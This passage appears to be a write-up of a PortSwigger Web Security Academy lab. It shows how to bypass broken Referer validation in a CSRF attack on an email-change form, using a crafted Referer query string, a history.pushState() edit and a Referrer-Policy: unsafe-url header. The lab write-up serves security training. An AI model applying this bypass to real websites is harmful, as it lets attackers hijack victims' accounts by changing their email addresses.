5. **Store** the exploit, then click **Deliver to victim**.

### Exploitability

An attacker needs to have an account and use an exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

----

## CSRF with broken Referer validation

### Description

[This lab](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)'s email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

### Reproduction and proof of concept

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.
3. Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:

```text
Referer: https://in-my-control.net?lab-id.web-security-academy.net
```
    
4. Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.
5. Create a CSRF proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab (above) and host it on the exploit server. Edit the JavaScript so that the third argument of the `history.pushState()` function includes a query string with your lab instance URL as follows:

```text
history.pushState("", "", "/?0a560045032453f8c49be2be00a800b0.web-security-academy.net")
```

This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.

6. If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behaviour and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:

```text
Referrer-Policy: unsafe-url
```
    
Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.

  

7. **Store** the exploit, then click **Deliver to victim**.

### Exploitability

An attacker needs to have an account and use an exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
